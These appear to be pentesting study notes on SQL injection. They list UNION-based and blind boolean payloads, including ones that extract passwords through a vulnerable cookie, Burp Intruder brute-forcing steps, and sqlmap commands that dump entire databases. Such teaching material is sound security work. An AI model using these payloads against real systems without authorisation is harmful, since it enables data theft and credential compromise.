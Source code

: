 ### Common SQL commands used during SQLi:

- **_`show databases;`_:** This command lists all the active databases

- **_`show tables;`_:** This command lists all the tables within the database

- **_`SELECT * FROM <table name>;`_:** This command dumps all the information present within the specified table.

- **_`SELECT password FROM users WHERE username = "Tom";`_:** This command returns with the password of the user **Tom** present within the **users** table.
***
### Common SQLi syntax:

- To check for SQLi, use **_`'`_** (single quote) or **_`"`_** (double quotes). If the application responds back with an error, then this confirms that SQLi is present within the application.

- **_`<username>' or 1=1#`_:** This command dumps all the contents of the table since the **_`1=1`_** part makes the statement always True. 

- For **_`UNION`_** based attacks, the number of columns has to be found. This can be done by specifying **_`null`_** values within the **_`UNION`_** based query. 

**_`<value>' UNION SELECT null#`_** ...... **_`<value>' UNION SELECT null,null#`_** ...... **_`<value>' UNION SELECT null,null,null#`_**

When the number of **_`null`_** values matches the number of columns present within the database, the searched value will be returned back.

- **_`UNION`_** based payload can be used to extract information about the database such as **_version_**, **_table names_**

**_`<value>' UNION SELECT null,null,version()#`_** -- This will return with the version of the database

**_`<value>' UNION SELECT null,null,table_name FROM information_schema.tables#`_** -- This will return with the table names for all the tables present within the database

**_`<value>' UNION SELECT null,null,column_name FROM information_schema.columns#`_** -- This will return all the column names for all the tables present within the database
***
### Checking SQLi using SQLmap:

To test a feature within a web application for possible SQL injection, SQLmap can be used with the following methodology:

- Initially, browse to feature hosted by the web application and intercept this request using Burp. 
- Now copy and paste this intercepted request onto a text file, and then provide this file as an input parameter to **_`sqlmap`_**

**_`sqlmap -r request.txt`_**

- **_`sqlmap`_** asks certain questions during the execution, enter the prompts as per requirements and  the output will have all the details about the type of SQL injection present within the feature which is being tested.
***
### Testing Blind SQL injection:

In Blind SQL injection, the output of the query is not returned to the browser. The query can only change the behavior of the application. 

Consider the following example of Blind SQL injection and the methodology to test a blind SQL injection:

- Consider a login form where you are directed to a page that says **WELCOME TO THE DASHBOARD** upon successful login. In case of an unsuccessful login, you will be directed back to the login page. 

- There is a **Cookie** being used for the login, which is being included in the login request. The **Cookie** field is found to be vulnerable to SQL injection. The only way to extract data is to generate and use payloads which implement a TRUE or FALSE condition, and based on the output we can extract data such as username or password.

- The payloads would be simple YES or NO questions written in SQL syntax. To extract information, we'll be using a function called **_SUBSTR()_**, i.e. **SubString**. 

**SYNTAX**:  **_`SUBSTR(string, start, length)`_**

**_`string`_** is the string to extract the specified value from.
**_`start`_** is the starting position for extraction. **_`start`_** can be both, positive and negative. If positive, the extraction is from the beginning of the string. If negative, the extraction is from the end of the string. 
**_`length`_** is the number/length of characters to be extracted.

- The following syntax can be used :
**_`' AND substring((SELECT version()), 1, 1) = '8'#`_** 

This will get the current version of the SQL service and check whether the first value of the version number is **_8_**. If the query returns TRUE, then the response will include the **_WELCOME TO THE DASHBOARD_** message. 

- We can check for the next value in the version number using the below query:
**_`' AND substring((SELECT version()), 1, 2) = '8.'`_**

**NOTE:** By incrementing the **_`length`_** parameter and checking for the next value using **_`' AND substring((SELECT version()), 1, 3) = '8.0'`_**.
Every time the query returns TRUE, the page with the **_WELCOME TO THE DASHBOARD_** is received as response. 
Another way to check whether the query returns TRUE is to check for the _**content length**_ of the response received. If the _**content length**_ is same as that of a response for a query returned TRUE, then the current query is returning TRUE.

-  To extract the password of a known user from the database, the following query can be used as part of the **_Cookie_** -- **_`' AND substring((SELECT password FROM table_name WHERE username = 'username'), 1, 1) = 'a'#`_**

Instead of trying every alphabet manually, this process can be automated by sending the request to **Intruder** and highlighting the parameter to be brute forced. Select the **Attack Type** as **_Sniper_**.
![[Pasted image 20250408172400.png]]

Under the **Payloads** tab of Burp Suite, select the **Payload type** as **_Simple list_** and add elements from `A-Z`, `a-z`, and `0-9` as contents of the payload and launch the attack. The element which returns a unique response length is the first alphabet of the password. 

#### Performing the same attack using `sqlmap`:

- Copy the request with the vulnerable parameter present in the request and save it to a file.
![[Pasted image 20250408175941.png]]

-  Now run **_`sqlmap -r req.txt --level=2`_**. The parameter **_`--level=2`_** is necessary if the injection is performed within the **_Cookie_** of the request. 
Answer all the prompted questions, and the output should display the type of SQL injection present within the **_Cookie_** parameter of the request. 
The output also displays the payload that can be used to test the injection vulnerability manually. 
![[Pasted image 20250408180539.png]]

**NOTE:** Critical information about the vulnerability displayed by **_`sqlmap`_** can be used within the report prepared for this assessment.

- Further, **_`sqlmap`_** can be used to dump the entire database. The following syntax can be used:
**_`sqlmap -r req.txt --level=2 --dump`_**

**NOTE:** A specific table can also be specified to be dumped by using **_`-T <table_name>`_** parameter.
![[Pasted image 20250408181031.png]]
***
